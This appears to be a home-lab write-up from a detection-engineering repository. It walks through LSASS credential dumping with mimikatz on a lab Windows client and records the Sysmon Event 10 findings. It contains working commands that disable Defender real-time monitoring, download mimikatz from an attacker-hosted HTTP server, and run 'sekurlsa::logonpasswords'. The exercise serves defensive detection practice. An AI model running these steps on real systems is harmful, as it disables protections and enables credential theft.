






# 05 — Credential Dumping (Mimikatz)

## Overview

| Field             | Detail                                                                                            |
| ----------------- | ------------------------------------------------------------------------------------------------- |
| Status            | ✅ Completed                                                                                       |
| Date              | 14 June 2026                                                                                                |
| Tier              | Intermediate                                                                                      |
| Attacker workflow | Run mimikatz on win-client to dump LSASS                                                          |
| Target            | win-client (10.0.10.20)                                                                           |
| MITRE Tactic      | Credential Access                                                                                 |
| MITRE Technique   | [T1003.001 — OS Credential Dumping: LSASS Memory](https://attack.mitre.org/techniques/T1003/001/) |
| Tool              | mimikatz                                                                                          |
| Log Source        | Sysmon Event 10 (ProcessAccess)                                                                   |
| Detection         | [detection/05-credential-dumping.md](../../detection/05-credential-dumping.md)                    |

> **Prerequisite:** Windows Defender will block mimikatz. For the lab, add an exclusion on win-client first (PowerShell as Admin):
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```
> Remember this is lab-only — never disable AV in production. Restore the VM afterwards.

---

## Attack Steps

### 1. Get mimikatz onto win-client

On Kali, host it; on win-client, download it:
```bash
#install mimikatz
sudo apt install mimikatz

#copy to /root
cp /usr/share/windows-resources/mimikatz/x64/mimikatz.exe /root

# Kali — in a folder containing mimikatz.exe
python3 -m http.server 80
```

```powershell
# win-client (Admin PowerShell)
Invoke-WebRequest -Uri "http://10.0.10.3/mimikatz.exe" -OutFile "C:\Windows\Temp\mimikatz.exe"
```

### 2. Dump credentials from LSASS

```powershell
C:\Windows\Temp\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit
```

This opens a handle into `lsass.exe` memory — Sysmon Event 10 records the access.

---

## Detection (summary)

Full SPL, alert settings, and notes: [detection file](../../detection/05-credential-dumping.md).

---

## Findings

> *(Fill in after completing)*

| Field                                 | Result                                                                          |
| ------------------------------------- | ------------------------------------------------------------------------------- |
| Date                                  | 14 June 2026                                                                    |
| Command used                          | C:\Windows\Temp\mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" exit |
| Event 10 captured (TargetImage=lsass) | Yes                                                                             |
| GrantedAccess value observed          | Yes                                                                             |
| Alert triggered                       | Yes                                                                             |

---

## Screenshots
  
  
 
---

## Cleanup

This attack dumps credentials and disables Defender. **Restore afterwards:**

```bash
./scripts/recovery/restore.sh win-client
```
